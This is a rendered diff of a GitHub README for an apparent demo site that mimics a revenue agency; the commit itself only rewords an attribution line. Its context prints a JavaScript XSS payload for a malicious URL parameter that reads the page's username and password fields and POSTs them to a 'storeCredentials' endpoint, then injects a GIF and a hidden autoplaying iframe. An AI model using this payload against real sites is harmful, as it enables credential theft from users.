

Before and after one commit to mtsanovv/nomanslandra, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -24,7 +24,7 @@ To get started, navigate to No Man's Land Revenue Agency home page: [https://mts
 - This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
 ```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
 - The website is based on Telephasic by HTML5UP!
-- Malicious code nspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)
+- Inspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)
 
 # License
 Creative Commons Attribution 3.0 Unported
````
